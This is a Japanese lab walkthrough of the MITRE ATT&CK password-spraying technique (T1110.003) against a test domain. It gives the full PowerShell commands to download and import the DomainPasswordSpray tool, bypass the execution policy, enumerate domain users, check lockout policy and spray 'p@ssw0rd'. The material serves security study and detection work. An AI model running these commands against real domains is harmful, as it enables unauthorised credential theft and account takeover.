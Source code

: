 # T1110.003 - Password Spraying

Password Spraying
-------------

Password Spraying 攻撃について記載します。

|  Type  | Description   |
----|---- 
|  ID  |  T1110.003  |
|  Tactic  |  Credential Access |
|  Techniques  |  Brute Force  |
|  Sub-techniques  |  Password Spraying |

本検証では、dafthack 氏が公開している「Domain Password Spray」ツールを利用します。

まず、ツールの取得を行うため Invoke-WebRequest での TLS 1.2 を許可した上でダウンロードを行います。

```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest –URI "https://github.com/dafthack/DomainPasswordSpray/archive/master.zip" -OutFile "~\Desktop\Tools\PasswordSpary_master.zip“
```

ダウンロードした zip ファイルを展開します。

```
cd C:\Users\Alice\Desktop\Tools\
Expand-Archive .\PasswordSpray_master.zip
```

Excution Policy を許可したうえで、ツールのモジュールをインポートします。

```
cd .\PasswordSpray_master\DomainPasswordSpray-master\
Set-ExecutionPolicy Bypass
Import-Module .\DomainPasswordSpray.ps1
```
ここで、パスワードスプレーを試行するユーザの列挙を行います。
本ツールには、Get-DomainUserList 関数で事前にユーザの列挙を行う機能が備わっています。
以下の例では、列挙したユーザを userlist.txt ファイルに出力しています。

```
Get-DomainUserList -Domain labcorp.local -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```
![T1110.003-1](images/T1110.003/1.png)

次に、パスワードスプレーでは特定のパスワードを複数のユーザに対して試行を行いますが、本ツールでは試行するパスワードをリストで指定することが可能です。
多くのパスワードを指定すると、アカウントロックの恐れがあるため事前にパスワードポリシーを調査します。

パスワードポリシーの調査には、Powershell の Get-ADDefaultDomainPasswordPolicy ユーティリティを用います。
Windows 10 では標準で本ユーティリティが備わっていないため、Remote Server Administration Tools (RSAT) をインストールします。

![T1110.003-2](images/T1110.003/2.png)

https://docs.microsoft.com/en-US/troubleshoot/windows-server/system-management-components/remote-server-administration-tools

![T1110.003-3](images/T1110.003/3.png)

https://www.microsoft.com/en-us/download/details.aspx?id=45520

Get-ADDefaultDomainPasswordPolicy ユーティリティを実行するとアカウントロックの閾値を確認することができます。
以下の場合は、「Lookout Threshold」の値が 0 であるためアカウントロックの閾値は設定されていないことがわかります。

![T1110.003-4](images/T1110.003/4.png)

アカウントロックの閾値は設定されていませんでしたが、次の実行例ではパスワードに「p@ssw0rd」という文字列を指定してパスワードスプレーを試行しました。
その結果、ユーザ Alice のパスワードに合致しました。

```
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain labcorp.local -Password p@ssw0rd -OutFile sprayed-creds.txt
```

![T1110.003-5](images/T1110.003/5.png)

